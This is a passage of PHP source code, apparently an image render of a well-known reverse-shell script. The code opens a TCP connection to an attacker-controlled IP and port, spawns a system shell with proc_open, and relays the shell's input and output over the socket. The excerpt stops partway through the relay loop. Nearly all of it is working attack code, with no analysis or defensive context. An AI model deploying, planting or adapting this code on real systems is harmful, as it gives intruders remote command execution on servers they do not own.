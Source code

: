 ```php
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
```